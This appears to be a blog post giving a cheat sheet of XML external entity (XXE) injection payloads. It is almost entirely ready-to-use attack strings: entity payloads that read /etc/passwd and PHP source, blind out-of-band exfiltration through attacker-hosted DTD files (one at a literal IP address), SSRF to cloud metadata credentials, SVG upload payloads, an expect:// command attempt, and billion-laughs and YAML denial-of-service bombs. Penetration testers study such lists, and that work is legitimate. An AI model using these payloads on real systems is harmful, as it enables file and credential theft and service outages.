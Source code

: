 ```yaml
---
layout: post
title: Cheat Sheat XXE injection
date: 2020-12-20 00:00:00 +5:30
categories: [WebApp]
tags: [WepApp] # add tag
---
```


# XXE

## Summary

XML external entity injection \(also known as XXE\) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.


Detecion:

```text
# Content type "application/json" or "application/x-www-form-urlencoded" to "applcation/xml".
# File Uploads allows for docx/xlsx/pdf/zip, unzip the package and add your evil xml code into the xml files.
# If svg allowed in picture upload, you can inject xml in svgs.
# If the web app offers RSS feeds, add your milicious code into the RSS.
# Fuzz for /soap api, some applications still running soap apis
# If the target web app allows for SSO integration, you can inject your milicious xml code in the SAML request/reponse
```

Check:

```text
<?xml version="1.0"?>
<!DOCTYPE a [<!ENTITY test "THIS IS A STRING!">]>
<methodCall><methodName>&test;</methodName></methodCall>
```

If works, then:

```text
<?xml version="1.0"?>
<!DOCTYPE a[<!ENTITY test SYSTEM "file:///etc/passwd">]>
<methodCall><methodName>&test;</methodName></methodCall>
```

Tools:

```
# https://github.com/BuffaloWill/oxml_xxe
# https://github.com/enjoiz/XXEinjector
```

Attacks:


Get PHP file:
```
<?xml version="1.0"?>
<!DOCTYPE a [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<methodCall><methodName>&test;</methodName></methodCall>
```
Classic XXE Base64 encoded
```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
Check if entities are enabled
```
<!DOCTYPE replace [<!ENTITY test "pentest"> ]>
 <root>
  <xxe>&test;</xxe>
 </root>
```
XXE LFI:
```
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```
XXE Blind LFI:
```
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```
XXE Access control bypass
```
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```
XXE to SSRF:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
XXE OOB
```
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://example.com/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```
PHP Wrapper inside XXE
```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.bae64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```
Deny Of Service - Billion Laugh Attack
```
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
Yaml attack
```
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
XXE OOB Attack (Yunusov, 2013)
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```
XXE OOB with DTD and PHP filter
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://92.222.81.2/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://92.222.81.2/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://92.222.81.2/dtd.xml?%data;'>">
```
XXE Inside SOAP
```
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
XXE PoC
```
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [<!ELEMENT foo ANY><!ENTITY xxe_test SYSTEM "file:///etc/passwd">]><foo>&xxe_test;</foo>
```
XXE file upload SVG
```
<svg>&xxe;</svg>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>

<?xml version="1.0" encdoing="UTF-8" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="14" x="0" y="16">&xxe;</text></svg>  
```
XXE Hidden Attack
```
- Xinclude

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Set the value of the productId parameter to:
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- File uploads:
```
Create a local SVG image with the following content:
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
Post a comment on a blog post, and upload this image as an avatar.
When you view your comment, you should see the contents of the /etc/hostname file in your image. Then use the "Submit solution" but
```
